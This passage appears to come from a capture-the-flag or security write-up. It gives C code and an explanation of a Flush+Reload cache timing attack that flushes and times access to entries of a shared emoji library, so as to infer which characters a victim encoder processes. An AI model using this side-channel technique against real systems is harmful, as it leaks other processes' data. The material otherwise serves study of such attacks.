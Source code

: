 ```c

    uint64_t deltas[ITERATIONS];

    for (int i = 0; i < ITERATIONS; i++){
        clflush(emojilib + LIB_OFFSET); // FLUSH
        pseudo_sleep(10000);
        deltas[i] = time_foo(emojilib + LIB_OFFSET);
    }

    for (int i = 0; i < ITERATIONS; i++){
        if (deltas[i] > 255) deltas[i] = 255;
        printf("%c", (char) deltas[i]);
    }

    return 0;
}
```

* `clflush` executes the `clflush` instruction on a given emoji
* `time_foo` times the access to a given emoji and returns the lower 32 bits of
the counter as that is enough for us
* `pseudo_sleep` just does a busy loop and just waits. We tried multiple times to use usleep ourselves, however syscalls in general caused a lot of uncertainty in our measurements so we opted for this method instead.

We first flush the cache line containing the emoji we are interested in, and wait for the encoder to fetch it. Then we
time the access to the same cache line again and print the resulting time of the
access interpreted as a byte. This allows us to retrieve 10000 samples of access
times to a given emoji each run. We did this for all possible characters and 
compared the results.
